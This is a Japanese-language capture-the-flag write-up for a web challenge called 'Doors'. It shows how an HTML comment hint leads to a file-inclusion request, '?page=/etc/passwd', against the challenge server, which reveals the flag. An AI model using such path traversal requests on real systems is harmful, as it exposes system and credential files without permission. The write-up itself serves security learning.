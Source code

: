 # Doors:Web Exploitation:100pts
Ada Loves to travel to places, London-Paris-Spain and discover more  
Link: [http://35.225.9.113/Doors/](http://35.225.9.113/Doors/)  

# Solution
URLにアクセスすると複数のphpページへのエントランスが表示される。  
Explore Dora!!  
[site1.png](site/site1.png)  
ソースの以下の部分に注目する。  
```html
~~~
		[<em><a href="file1.php">file1.php</a></em>] - [<em><a href="file2.php">file2.php</a></em>] - [<em><a href="file3.php">file3.php</a></em>]
	</div></h3>

			</div>
<!-- ?page -->
			<div class="clear">
			</div>
~~~
```
`?page`なるコメントがなされている。  
index.phpを指定した`http://35.225.9.113/Doors/?page=index.php`にアクセスしてみる。  
?page=index.php  
[site5.png](site/site5.png)  
ファイルが読み込めている。  
ディレクトリトラバーサルに狙いをつけて、`/etc/passwd`を取得してみる。  
`http://35.225.9.113/Doors/?page=/etc/passwd`にアクセスするとflagが表示された。  
flag  
[flag.png](site/flag.png)  

## shaktictf{c4lculu5_0f_7h3_n3rv0u5_5y5t3m}